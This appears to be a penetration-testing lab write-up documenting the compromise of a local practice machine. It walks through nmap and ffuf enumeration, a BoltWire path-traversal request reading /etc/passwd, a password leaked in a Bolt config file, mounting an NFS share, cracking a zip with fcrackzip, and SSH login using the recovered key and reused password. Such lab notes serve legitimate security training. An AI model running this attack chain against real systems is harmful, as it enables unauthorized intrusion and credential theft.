

## Do scanning and enumeration using nmap

```
nmap -sS -Pn -A -p- -T4 192.168.64.6 -oN nmapdev.txt
```


Output:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-07 15:18 PDT
Nmap scan report for 192.168.64.6
Host is up (0.0015s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36809/tcp6  mountd
|   100005  1,2,3      47231/tcp   mountd
|   100005  1,2,3      50980/udp   mountd
|   100005  1,2,3      60620/udp6  mountd
|   100021  1,3,4      34691/tcp6  nlockmgr
|   100021  1,3,4      40815/tcp   nlockmgr
|   100021  1,3,4      57124/udp   nlockmgr
|   100021  1,3,4      58206/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.54 ms 192.168.64.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds

```

## Exploit port 8080

```
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


- http://192.168.64.6:8080
		- PHP Version 7.3.27-1~deb10u1
		- Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 

Here are the valid directories as per ffuf (has return 301)

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6:8080/FUZZ -mc 200,204,301,302,307,401,403,405

dev                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 17ms]
                        [Status: 200, Size: 94605, Words: 4689, Lines: 1160, Duration: 69ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 25ms]
```

dev site

![[Pasted image 20240707193457.png]]


Check the boltwire exploit in your browser

https://www.exploit-db.com/exploits/48411


![[Pasted image 20240707195943.png]]

1) Using HTTP GET request browse to the following page, whilst being authenticated user.
http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd

As per the exploit-db you need to be regoistered first so i registered in the website as hacker

![[Pasted image 20240707201105.png]]

Then go to the webiste http://192.168.64.6:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd

Using the website directory we checked that there is user jeanpaul

![[Pasted image 20240707201209.png]]
## Exploit port 80

- http://192.168.64.6
		- There is bolt cms webpage not in proper location


## Directory scanning using ffuf

#ffuf 


Here are the valid directories as per ffuf (has return 301)

```
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6/FUZZ -mc 200,204,301,302,307,401,403,405

public                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 33ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 209ms]
src                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 17ms]
app                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 23ms]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 23ms]
extensions              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 17ms]

```

##### Exploring the app site we see the config.yml that contains password



Password in config.yml

```
# Database setup. The driver can be either 'sqlite', 'mysql' or 'postgres'.
#
# For SQLite, only the databasename is required. However, MySQL and PostgreSQL
# also require 'username', 'password', and optionally 'host' ( and 'port' ) if the database
# server is not on the same host as the web server.
#
# If you're trying out Bolt, just keep it set to SQLite for now.
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```
## Exploit nfs


1. Check nfs file share by using `showmount -e 192.168.64.6`
2. Make a directory to mount that nfs file share to your directory by using `mkdir /mnt/dev
3. mount the /mnt/dev directory to the nfs file share `mnt -t nfs 192.168.64.6:/srv/nfs /mnt/dev`
4. Go to the directory `cd /mnt/dev`
5. list the directory `ls`
6. unzip the file `unzip save.zip`
7. However it has password, we need to install fcrackzip `apt install fcrackzip`
8. Use fcrackzip to crack the password using the wordlist dictionary rockyou.txt
```
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
where:

- -v - verbosity
- -u - unzip
- -D - dictionary
- -p - we are using wordlistfile rockyou.txt
- save.zip - the file that we will unzip

9. After cracking, we found out that the pw is java101
10. After unzipping we unzion sa save.zip and found id_rsa file and todo.txt
11. We tried the id_rsa file in connecting using jp username but cant connect 

```
┌──(root㉿kali)-[~]
└─# showmount -e 192.168.64.6
Export list for 192.168.64.6:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

┌──(root㉿kali)-[~]
└─# mkdir /mnt/dev 

┌──(root㉿kali)-[~]
└─# mount -t nfs 192.168.64.6:/srv/nfs /mnt/dev

┌──(root㉿kali)-[~]
└─# cd /mnt/dev 

┌──(root㉿kali)-[/mnt/dev]
└─# ls
save.zip

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
password incorrect--reenter: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password

┌──(root㉿kali)-[/mnt/dev]
└─# apt install fcrackzip

┌──(root㉿kali)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip                                                                          
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                

┌──(root㉿kali)-[/mnt/dev]
└─# ls
id_rsa  save.zip  todo.txt

┌──(root㉿kali)-[/mnt/dev]
└─# cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jp@192.168.64.6
The authenticity of host '192.168.64.6 (192.168.64.6)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.64.6' (ED25519) to the list of known hosts.
jp@192.168.64.6's password: 
Permission denied, please try again.
jp@192.168.64.6's password: 

                                                                                                                                                      
┌──(root㉿kali)-[/mnt/dev]
└─# 


```

We learned from exploiting the 8080 and 80 that the user is jean paul now lets use the id_rsa to login

```
┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jeanpaul@192.168.64.6
Enter passphrase for key 'id_rsa': 
```


However, the id_rsas needs a passphrase, let's use the password that we saw while we exploit the port 80. We found the password in /app web directory config.yml

Can't use dictionary attack as there is no I_love_java there

We can dictionary attack with list of password using the /usr/share/dirbuster/wordlists/rockyou.txt but there is no word like I_love_java there 

we can check `cat /usr/share/wordlists/rockyou.txt | grep I_love_java`

```
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

We exploited the user jeanpaul using `I_love_java`

```
┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jeanpaul@192.168.64.6
Enter passphrase for key 'id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ 

```


